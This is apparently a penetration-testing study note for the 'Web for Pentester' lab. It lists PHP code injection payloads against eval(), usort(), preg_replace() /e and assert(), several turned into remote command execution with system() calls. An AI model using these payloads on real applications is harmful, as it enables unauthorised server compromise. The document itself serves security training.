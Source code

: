 ## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster walkthrough
### example 1
` eval() - evaluates a string as PHP code `

**payload**- " .phpinfo(). "

**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 



### example 2
` usort() - Sort an array by values using a user-defined comparison function `

**payload**-example2.php?order=id,system('whoami')

**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 



### example 3
` preg_replace() — Perform a regular expression search and replace `

**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"

**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE



### example 4
` assert() - Checks if assertion is FALSE `

**payload** - example4.php?name=hacker'.phpinfo().'

**payload** - example4.php?name=hacker'.system('uname -a').'


### Noted by [konova](https://www.facebook.com/kon0va)


### Ref : 
- [LOL security](https://www.youtube.com/channel/UCQm58nOLArHOfC5dF9zCxHg)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)


